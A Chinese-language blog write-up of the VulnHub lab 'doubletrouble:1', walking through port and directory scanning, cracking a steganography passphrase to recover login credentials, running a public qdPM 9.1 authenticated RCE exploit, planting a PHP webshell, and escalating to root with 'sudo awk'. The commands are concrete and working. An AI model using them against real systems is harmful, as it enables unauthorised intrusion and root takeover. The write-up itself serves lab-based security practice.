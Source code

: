 ```yaml
---
title: vulnhub 做题 doubletrouble:1
tags: [penetration]
date: 2024-10-15 00:00:00
categories: [penetration]
excerpt: day4
---
```


## vulnhub 做题 doubletrouble : 1

### 扫描

```zsh
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
```

首先还是和上一道题一样的qdpm程序，这次是9.1版本，并且还能打开那个yml文件，但是这道题没开mysql，没法登陆上去（试了一下ssh也登不上去）

### 利用

用goburster扫描路径

```zsh
gobuster dir -u 192.168.169.134 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

/images               (Status: 301) [Size: 319] [--> http://192.168.169.134/images/]
/uploads              (Status: 301) [Size: 320] [--> http://192.168.169.134/uploads/]
/css                  (Status: 301) [Size: 316] [--> http://192.168.169.134/css/]
/template             (Status: 301) [Size: 321] [--> http://192.168.169.134/template/]
/core                 (Status: 301) [Size: 317] [--> http://192.168.169.134/core/]
/install              (Status: 301) [Size: 320] [--> http://192.168.169.134/install/]
/js                   (Status: 301) [Size: 315] [--> http://192.168.169.134/js/]
/sf                   (Status: 301) [Size: 315] [--> http://192.168.169.134/sf/]
/secret               (Status: 301) [Size: 319] [--> http://192.168.169.134/secret/]
/backups              (Status: 301) [Size: 320] [--> http://192.168.169.134/backups/]
/batch                (Status: 301) [Size: 318] [--> http://192.168.169.134/batch/]
/server-status        (Status: 403) [Size: 280]
```

在/secret路径下找到一个doubletrouble.jpg

尝试提取隐写内容
```zsh
└─$ steghide extract -sf doubletrouble.jpg                      
Enter passphrase:

└─$ stegseek  doubletrouble.jpg /usr/share/wordlists/rockyou.txt
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] 
Found passphrase: "92camaro"
```

解密出来的内容是一个邮箱和密码
```zsh
└─$ cat doubletrouble.jpg.out              
otisrush@localhost.com
otis666 
```

其实在最开始就找过qdpm的漏洞，但都是要先有一个账号，比如
```zsh
qdPM 9.1 - 'cfg[app_app_name]' Persistent Cross-Site Scripting     | php/webapps/48486.txt
qdPM 9.1 - 'filter_by' SQL Injection                               | php/webapps/45767.txt
qdPM 9.1 - 'search[keywords]' Cross-Site Scripting                 | php/webapps/46399.txt
qdPM 9.1 - 'search_by_extrafields[]' SQL Injection                 | php/webapps/46387.txt
qdPM 9.1 - 'type' Cross-Site Scripting                             | php/webapps/46398.txt
qdPM 9.1 - Arbitrary File Upload                                   | php/webapps/48460.txt
qdPM 9.1 - Remote Code Execution                                   | php/webapps/47954.py
qdPM 9.1 - Remote Code Execution (Authenticated)                   | php/webapps/50175.py
qdPM 9.1 - Remote Code Execution (RCE) (Authenticated) (v2)        | php/webapps/50944.py
qdPM < 9.1 - Remote Code Execution                                 | multiple/webapps/48146.py
```

比如50944就需要先登录，然后在用户上传自己头像时，由于没有检查文件类型，上传一个php，导致任意代码执行
```zsh
python /usr/share/exploitdb/exploits/php/webapps/50944.py -url http://192.168.169.134/ -u otisrush@localhost.com -p otis666
```

![](/img/pene/6.png)

然后echo一个一句话木马到一个php文件，通过AntSword链接，得到webshell，然后再反弹一个shell

### 提权

uname -a 显示是linux 4.19.0，searchsploit没搜到能用的漏洞。
这时候应该找系统上能够以sudo权限执行的程序

```zsh
$ sudo -l
Matching Defaults entries for www-data on doubletrouble:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on doubletrouble:
    (ALL : ALL) NOPASSWD: /usr/bin/awk
```

```sudo awk 'BEGIN {system("/bin/bash")}'```



